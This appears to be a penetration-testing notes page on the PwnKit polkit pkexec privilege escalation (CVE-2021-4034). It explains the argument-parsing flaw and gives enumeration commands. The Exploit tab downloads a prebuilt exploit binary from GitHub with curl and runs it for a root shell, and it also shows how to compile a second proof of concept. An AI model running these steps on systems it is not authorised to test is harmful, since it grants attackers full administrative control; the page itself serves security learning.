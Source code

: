 ```yaml
---
description: CVE-2021-4034
---
```


# PwnKit

## Theory

CVE-2021-4034 (pwnkit) was discovered by researchers at [Qualys](https://www.qualys.com/). The vulnerability has existed in every version of the "Policy Toolkit" (or, Polkit) package **since it was first released in 2009** and allows any unprivileged attacker to easily obtain full administrative access over any Linux machine with the Polkit package installed. Polkit is installed by default on most distributions of Linux, making this vulnerability _extremely_ widespread.
The Pwnkit vulnerability exists in the pkexec utility. The pkexec command is used by authorized users to execute commands at elevated privileges (like using sudo). 

Pkexec attempts to parse any command-line arguments that we pass it using a for-loop, starting at the index 1 to offset the name of the program and obtain the first real argument. The name of the program is irrelevant to argument parsing, so the indexing is simply offset to ignore it. But if we don't provide any arguments, the index is permanently set to 1.
This becomes a problem later when pkexec attempts to write to the value of the argument at index n. As there are no command-line arguments, there is no argument at index n — instead the program overwrites the next thing in memory, which just so happens to be the first value in the list of environment variables when the program is called using a C function called execve(). In other words, by passing pkexec a null list of arguments, we can force it to overwrite an environment variable instead! - [TryHackMe](https://tryhackme.com/room/pwnkit)

## Practice

{% tabs %}
{% tab title="Enumeration" %}
To make the PwnKit exploit working. The SUID bit on the pkexec binary must be set
```
$ find / -type f -name *pkexec* -perm -4000 2>/dev/null
/usr/bin/pkexec
```

Check if the policykit package is vulnerable
```bash
#Debian/Ubuntu
apt list --installed | grep policykit-1

#RHEL/CentOs/Fedora
rpm -qa | grep -i polkit|grep -i '0.11[3-9]'
```
{% endtab %}

{% tab title="Exploit" %}
We can use [this exploit](https://github.com/ly4k/PwnKit) made by ly4k.
It should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.
```bash
#Run the exploit
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit        # interactive shell
./PwnKit 'id'   # single command

# Or you may want to compile it by yourself
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Alternativly, we can use [this exploit](https://github.com/arthepsy/CVE-2021-4034) made by arthepsy
```
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
./cve-2021-4034-poc
```
{% endtab %}
{% endtabs %}



## Ressource

{% embed url="https://ine.com/blog/exploiting-pwnkit-cve-20214034" %}

{% embed url="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034" %}

{% embed url="https://tryhackme.com/room/pwnkit" %}
